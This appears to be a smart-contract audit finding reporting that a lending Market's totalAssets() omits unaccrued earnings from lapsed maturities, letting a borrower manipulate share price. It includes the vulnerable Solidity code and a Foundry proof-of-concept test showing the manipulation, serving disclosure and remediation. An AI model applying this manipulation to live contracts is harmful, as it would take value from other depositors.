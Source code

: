 Tiny Mulberry Tapir

medium

# A maturity with remaining earnings that have not yet been accrued may not be included in the `totalAsset()` function

## Summary
In the Market contract, the `totalAsset()` function accrues earnings from `maxFuturePools + 1` maturities. However, there may be a maturity not included in this list which has remaining `unassignedEarnings` that are not accrued. This could result in an unfair situation for the share price of the Market and allow a malicious holder to manipulate `totalAsset()` to acquire cheap shares. There is no way to ensure that this case never happens because there is no function in the Market contract to manually accrue the earnings of a maturity.
## Vulnerability Detail
In totalAsset() function of Market contract:
```solidity=
///https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/main/protocol/contracts/Market.sol#L925-L949
function totalAssets() public view override returns (uint256) {
    unchecked {
      uint256 backupEarnings = 0;

      uint256 latestMaturity = block.timestamp - (block.timestamp % FixedLib.INTERVAL);
      uint256 maxMaturity = latestMaturity + maxFuturePools * FixedLib.INTERVAL;

      for (uint256 maturity = latestMaturity; maturity <= maxMaturity; maturity += FixedLib.INTERVAL) {
        FixedLib.Pool storage pool = fixedPools[maturity];
        uint256 lastAccrual = pool.lastAccrual;

        if (maturity > lastAccrual) {
          backupEarnings += block.timestamp < maturity
            ? pool.unassignedEarnings.mulDivDown(block.timestamp - lastAccrual, maturity - lastAccrual)
            : pool.unassignedEarnings;
        }
      }

      return
        floatingAssets +
        backupEarnings +
        accumulatedEarnings() +
        (totalFloatingBorrowAssets() - floatingDebt).mulWadDown(1e18 - treasuryFeeRate);
    }
  }
```
This function considers a total of `maxFuturePools + 1` maturities from `latestMaturity` to `maxMaturity`. However, there may be a maturity not included in this list that has remaining `unassignedEarnings` which have not been accrued. This can occur when there have been no operations for a time during the active period of this maturity.

For example, a maturity runs from May 1st to May 29th (4 weeks), but there have been no operations from May 20th to June 27th. On June 28th, the earnings from the last 9 days (May 20th to May 29th) of this maturity have not yet been accrued. However, `totalAsset()` will not consider this maturity for accruing its earnings into the total assets, resulting in `totalAsset()` being lower than the actual amount.

This vulnerability creates an unfair situation for users of the Market who deposit or withdraw from the floating pool to acquire or redeem shares. A malicious borrower can exploit it to manipulate the share price of the floating pool by using `repayAtMaturity()` to trigger `accrueEarnings` again.

Here is the test function for a PoC:
```solidity=
function testMaturityUnchangedManipulateTotalAsset() external {
    irm = MockInterestRateModel(address(new MockBorrowRate(0.1e18)));
    market.setInterestRateModel(InterestRateModel(address(irm)));
    market.setMaxFuturePools(5);
    market.deposit(100 ether, address(this));

    // borrow and create unassigned earnings for a maturity
    market.borrowAtMaturity(FixedLib.INTERVAL, 10 ether, 11 ether, address(this), address(this));
    
    // nearly one month after maturity ends
    // retrieve totalAsset() and share price at this moment
    vm.warp(FixedLib.INTERVAL * 2 - 1);
    uint256 fullyAsset = market.totalAssets();
    uint256 oldPrice = market.previewRedeem(1 ether);
    console.log(fullyAsset);

    // more than one month after maturity ends
    // totalAsset() has not accrued the earnings from maturity, so totalAssets() decreases
    // therefore, the share price will decrease and become cheaper
    vm.warp(FixedLib.INTERVAL * 2 + 1);
    (, , uint256 accruedEarnings, ) = market.fixedPools(FixedLib.INTERVAL);
    console.log(market.totalAssets());
    assertEq(market.totalAssets(), fullyAsset - accruedEarnings);
    uint256 newPrice = market.previewRedeem(1 ether);
    assertLt(newPrice, oldPrice);
    
    //After that, user can repay to manipulate the share price increase
    market.repayAtMaturity(FixedLib.INTERVAL, 1.1 ether, 2 ether, address(this));
    uint256 manipulatedPrice = market.previewRedeem(1 ether);
    assertGt(manipulatedPrice, newPrice);
}
```
Please put this function into `Market.t.sol` test file and run the command:
```bash=
forge test -vv --match-test testMaturityUnchangedManipulateTotalAsset
```
## Impact
This case result in an unfair situation for the share price of the Market and allow a malicious holder to manipulate `totalAsset()` to acquire cheap shares.
## Code Snippet
https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/main/protocol/contracts/Market.sol#L925-L949
## Tool used

Manual Review

## Recommendation
Market contract should have a function to manually accrue earnings from maturities to prevent the scenario where a maturity still has unassigned earnings for an extended period after it ends.